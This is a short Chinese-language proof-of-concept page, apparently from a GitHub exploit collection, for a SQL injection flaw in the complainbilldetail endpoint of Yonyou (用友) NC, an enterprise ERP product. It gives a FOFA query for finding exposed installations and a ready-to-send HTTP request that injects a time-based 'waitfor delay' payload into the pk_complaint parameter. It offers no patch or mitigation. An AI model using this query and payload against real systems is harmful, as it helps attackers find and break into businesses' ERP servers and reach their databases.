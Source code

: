 # 用友NC complainbilldetail SQL注入漏洞
## 资产搜索
fofa app="用友-UFIDA-NC"   
## POC
```POST
GET /ebvp/advorappcoll/complainbilldetail?pageId=login&pk_complaint=1'waitfor+delay+'0:0:5'-- HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```
